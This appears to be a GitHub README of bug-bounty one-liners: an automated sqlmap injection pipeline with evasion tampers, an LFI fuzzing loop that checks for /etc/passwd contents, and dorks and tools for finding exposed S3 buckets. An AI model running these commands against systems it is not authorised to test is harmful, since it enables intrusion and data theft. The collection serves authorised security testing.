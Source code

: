 # Bugbounty
## 2024 Oneliners found online

## Check SQL
waybackurls 'URL TARGET'| grep '='| httpx --silent --status-code| awk '{print $1}'| xargs -I{} sqlmap -u {} -v 3 --random-agent --tamper "between,randomcase,space2comment" --level 5 --risk 3 --batch --threads 5 --crawl 2 --suffix=') and 1=1-- -'

## Screenshot
cat hosts | gowitness scan file -f - --write-csv  


# 2025 Oneliners found online 

## LFI
findomain -t example.com -q | waybackurls |gf lfi | qsreplace FUZZ | while read url ; do ffuf -u $url -mr “root:x” -w ~/wordlist/LFI.txt ; done


## FIND S3
Google Dorking
(site:*.s3.amazonaws.com OR site:*.s3-external-1.amazonaws.com OR site:*.s3.dualstack.us-east-1.amazonaws.com OR site:*.s3.ap-south-1.amazonaws.com) "financialforce.com"


Tool: dorks_eye
Link: https://github.com/BullsEye0/dorks-eye
- I forked the original. sudo-awk

Using subfinder + httpx

subfinder -d target.com -all -silent | httpx-toolkit -sc -title -td | grep "Amazon S3"

Find using JS files

katana -u https://site.com/ -d 5 -jc | grep '\.js$' | tee alljs.txt
cat alljs.txt | xargs -I {} curl -s {} | grep -oE 'http[s]?://[^"]*\.s3\.amazonaws\.com[^" ]*' | sort -u

Find using java2s3

subfinder -d target.com -all -silent | httpx-toolkit -o file.txt
cat file.txt | grep -oP '(?<=https?:\/\/).*'
python java2s3.py input.txt target.com output.txt
cat output3.txt | grep -E "S3 Buckets: \['[^]]+"
cat output.txt | grep -oP 'https?://[a-zA-Z0-9.-]*s3(\.dualstack)?\.ap-[a-z0-9-]+\.amazonaws\.com/[^\s"<>]+' | sort -u
cat output3.txt | grep -oP '([a-zA-Z0-9.-]+\.s3(\.dualstack)?\.[a-z0-9-]+\.amazonaws\.com)' | sort -u


Brute-Forcing S3 Bucket with LazyS3
You can also use this LazyS3 tool — it's basically a brute force tool for AWS S3 buckets using different permutations. you can run the following command by specifying the target domain


Website you can use : 

https://osint.sh/buckets/
grayhatwarefare

Chrome plugin 
https://chromewebstore.google.com/detail/s3bucketlist/anngjobjhcbancaaogmlcffohpmcniki?hl=en

(site:*.s3.amazonaws.com OR site:*.s3-external-1.amazonaws.com OR site:*.s3.dualstack.us-east-1.amazonaws.com OR site:*.s3.ap-south-1.amazonaws.com) "target.com"

## Get urls

waymore -i hackerone.com -mode U -oU hackerone_urls.txt

cat subs.txt | gau | uro | tee -a all_urls

katana -u target.com | uro | tee -a urls.katana.out


###credits to lostsec



